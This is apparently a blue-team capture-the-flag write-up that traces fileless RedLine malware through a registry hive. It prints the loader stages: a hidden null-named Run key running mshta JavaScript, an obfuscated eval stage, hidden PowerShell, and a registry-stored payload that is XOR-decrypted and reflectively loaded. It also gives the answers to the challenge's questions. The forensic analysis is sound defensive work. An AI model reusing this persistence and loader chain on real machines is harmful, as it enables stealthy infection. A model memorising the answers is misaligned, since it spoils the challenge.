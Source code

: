 # Intro
Challenge Link: https://cyberdefenders.org/blueteam-ctf-challenges/118#tab=questions
```
A security breach occurred on a corporate network, and a device may have been infected with fileless malware.
This malware operates entirely in memory, making it difficult to detect and analyze.

The security team has extracted the NTUSER.DAT registry hive from the affected device.
Your task is to analyze this file and identify any malicious activities associated with the fileless malware.
```

## Analyzing the registry file
From the description, we are dealing with a fileless malware, and we are given a registry hive. There are multiple ways to analyze this registry file, such as **comparing it with a clean registry snapshot** **[[RegShot](https://sourceforge.net/projects/regshot/)]** or **looking for suspicious locations where malware might exist**, like the `Run` key. **[[1](https://www.minitool.com/news/check-registry-for-malware-and-remove-it.html)]**

Let's load the registry hive

![](photos/load.gif)

If we tried to check the `Run` registry key, we encountered the following error and we won't find any suspicious value.

![](photos/error_run.png)

![](photos/run_reg.png)

It's a trick that the malware authors use to hide the registry value. They employ the NtSetValueKey native API to create a hidden (null-terminated) registry key, such as `\\x00\\x00SOFTWARE\\`. This technique allows them to obscure the presence of the key and evade detection by the DFIR investigation.

We can use various tools to read this registry value. **[[regipy](https://github.com/mkorman90/regipy)]**

```python
from regipy.registry import RegistryHive
reg = RegistryHive('NTUSER.DAT')

Run_Val = reg.get_key('Software').get_subkey('Microsoft').get_subkey('Windows').get_subkey('CurrentVersion').get_subkey('Run').get_values(as_json=True)

print(Run_Val)
```
```
[
   [
    Value(
        name="OneDrive",
        value='"C:\\Users\\device\\AppData\\Local\\Microsoft\\OneDrive\\OneDrive.exe" /background',
        value_type="REG_SZ",
        is_corrupted=False,
    ),
    Value(
        name="\x00\x00SOFTWARE\\",
        value="\"C:\\Windows\\System32\\cmd.exe\" /C start mshta.exe 'javascript:var d6bRt=new ActiveXObject(WScript.shell);var o2eXl=d6bRt.RegRead(HKCU\\\\software\\\\PDFViewer\\\\Settings);eval(o2eXl);'",
        value_type="REG_SZ",
        is_corrupted=False,
    ),
]

]
```

## First/Second/Third Stage
Now, everything has become clear. We can clearly see the null-terminated trick employed and the malicious command executed each time the user logs in, ensuring persistence.

```
"C:\Windows\System32\cmd.exe" /C start mshta.exe 'javascript:var d6bRt=new ActiveXObject(WScript.shell);var o2eXl=d6bRt.RegRead(HKCU\\software\\PDFViewer\\Settings);eval(o2eXl);'
```

The command `cmd.exe /C start mshta.exe` is used to launch a new window and execute the program mshta.exe. In Windows, `mshta.exe` is responsible for running HTML applications. Finally, the executed `JS` program carries out additional actions as part of the malware's functionality.

The `JS` code appears to attempt to access the value in `HKCU\software\PDFViewer\Settings` and execute it using the **eval** function.


```python
# Q1: To determine how the fileless malware was executed on the device, we need to determine which trusted Windows process it hijacked. What is the name of the Windows-native binary used to run malicious code? mshta.exe
# Q2: Understanding how the malware maintains its presence in the system without a file is crucial for detecting and eradicating the infection. What is the value name of the register string key that contains the malicious script? PDFViewer
```

```python
from regipy.registry import RegistryHive
reg = RegistryHive('NTUSER.DAT')

Run_Val = reg.get_key('Software').get_subkey('PDFViewer').get_value('Settings')

print(Run_Val)
```

**_NOTE:_**  It's obfuscated more than that

```javascript
k2px="5a1634090a3...snippet...436b";
YZDwG5="";
for(Y5JITecq=0;Y5JITecq<k2px.length;Y5JITecq+=2)
   YZDwG5+=String.fromCharCode(parseInt(k2px.substr(Y5JITecq,2),16));
yWRHh23aHDjKD="";
for(Sjuh5ZeqqzXyKS=ofpNn1wsYC7AZaiDa=0; ofpNn1wsYC7AZaiDa<YZDwG5.length; ofpNn1wsYC7AZaiDa++) {
   yWRHh23aHDjKD+=String.fromCharCode(YZDwG5.substr(ofpNn1wsYC7AZaiDa,1).charCodeAt()^gsHFf3JWfO.substr(Sjuh5ZeqqzXyKS,1).charCodeAt());Sjuh5ZeqqzXyKS=(Sjuh5ZeqqzXyKS<gsHFf3JWfO.length-1)?Sjuh5ZeqqzXyKS+1:0;
}
eval(yWRHh23aHDjKD);
```

```python
# Q3: To fully comprehend the attacker's approach in concealing the malware, it is imperative to determine the encryption technique and the key value utilized for decrypting the second stage. What is the exact key value required for decrypting the second stage of the malware?PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa
```

replace the `eval` with `console.log` and let's move to the second stage

```powershell
lbdDgcxfyGktwpPHhOevXr1G="RNHvYHQDCzWuwah82O9z";zdVykkfDJcJs6jCeOusxGgnM="TjSGzh3ddexcFTXo1TdjIZV2y0";ydAac6LrWckydmIXdfVQEa6="7QL1FbjZj4y6zJxMCIwhNiyFLK";brpSxkAkAGYAFMe1Q5F="F0b6t8WqXGbvrlQcc95Y9gT";YEBwu5vvRmE5KYfHduYhsNiu="73dKojlgx0FXzMH6TX8HHiaf4JKzZ7YD6F3q0";vpdFstmgBTrOHB9fZZP6iUNFv="UzTk77YC0p1zaZKg3NxrvLxtNsf7aRM4CQe4";nSDruMMuSsiqefQUkCIXC4Rg2="Sz8VKnt5KXMF4HINTuhZxtOgI85j6gAmgZgMR11XT9YF";jksJJxRsO0nn3oXoMlHkVMx="vDzjG41OyHAQeYTH7OBsvMsS0DnDRG4q1g";
try {
  moveTo(-100,-100);
  resizeTo(0,0);
  z5P=new ActiveXObject("WScript.Shell");
  (z5P.Environment("Process"))
  ("fagyo")="iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String(
    'JHR...snippet...dXSBAKCkpKQ=='
  )))";
  uG0GC5=z5P.Run("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe iex $env:fagyo",0,1);
}
catch(e){}
close();
```

![cyberChef](photos/cyberchef.png)

```powershell
$tiodsf2Gdefdaj= Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg" |
Select-Object -ExpandProperty "zorsuhg";
$pqiekvf = [byte[]]$tiodsf2Gdefdaj;$tuievkd23kdi0 = [byte[]](0x61,0x31,0x35,0x38,0x30,0x37,0x64,0x66,0x65,0x33,0x34,0x37,0x65,0x63,0x61,0x61,0x35,0x37,0x62,0x39,0x65,0x32,0x33,0x32,0x61,0x36,0x31,0x31,0x64,0x65,0x30,0x64,0x39,0x36,0x66,0x32,0x64,0x61,0x63,0x36,0x65,0x35,0x31,0x63,0x34,0x39,0x31,0x32,0x31,0x37,0x62,0x35,0x64,0x36);$eBy = @();
for ($i = 0; $i -lt $pqiekvf.Length; $i++) {
$eBy += $pqiekvf[$i] -bxor $tuievkd23kdi0[$i % $tuievkd23kdi0.Length]
}$sc32=[byte[]]$eBy
$bdwrQYis = [System.Convert]::ToBase64String($sc32);
$PEQVDqyts = [System.Convert]::FromBase64String($bdwrQYis);
$assembly = [System.Reflection.Assembly]::Load($PEQVDqyts)
$lqTvcqdoppjds = 
 $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').
   GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$lqTvcqdoppjds.Invoke($null, (, [string[]] @()))
```

It get the binary value that is stored in `HKCU:\Software\nsem\zorsuhg` and decrypt it by xoring it with the key `tuievkd23kdi0`

![](photos/cyber2.png)

```python
# Q4: To fully understand the scope of the fileless malware's payload, we need to find where it is stored. What is the value name of the registry string key that contains the encrypted executable? zorsuhg
# Q5: Decrypting the malware's executable will allow us to analyze its behavior. What is the key value used to decrypt the executable?a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6
```

```python
from regipy.registry import RegistryHive
from pwn import xor
reg = RegistryHive('NTUSER.DAT')

enc_bin = reg.get_key('Software').get_subkey('nsem').get_value('zorsuhg')
key = bytearray(b"a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6")
binary = xor(key, enc_bin)

with open('binary', 'wb') as f:
    f.write(binary)
```

![](photos/mal_fam.png)

```python
# Q6: Comparing the hash of the decrypted executable against known threats can confirm its identity and inform our response strategy. What is the MD5 hash of the decrypted executable?F07E946C8273176316CF6D97DC780BD7
# Q7: Identifying the malware family can provide context about the threat actors and their methodologies. What is the name of the malware family associated with this attack? redline
```

Loading it in the `dnspy` you can find the key easily

![](photos/dnspy.gif)

```python
# Q8: Understanding all decryption keys used by the malware can aid in revealing the full scope of the threat. What is the key used to decrypt the second stage of the executable? Bounxcwkdkigednzzwbux
```
